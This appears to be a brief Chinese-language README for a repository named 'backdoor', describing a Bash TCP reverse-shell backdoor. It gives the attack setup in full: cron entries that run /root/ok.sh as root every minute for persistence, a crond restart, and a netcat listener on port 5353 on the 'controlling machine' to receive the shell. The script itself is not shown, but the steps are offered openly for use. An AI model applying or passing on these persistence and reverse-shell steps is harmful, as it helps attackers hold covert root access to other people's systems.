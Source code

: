 # backdoor

Bash TCP反弹后门<br>
bash_tcp_backdoor.sh
vim /etc/crontab
*/1 * * * * root /root/ok.sh
或
crontab -e
*/1 * * * *  /root/ok.sh

systemctl restart crond

控制机执行
nc -l -v -p 5353
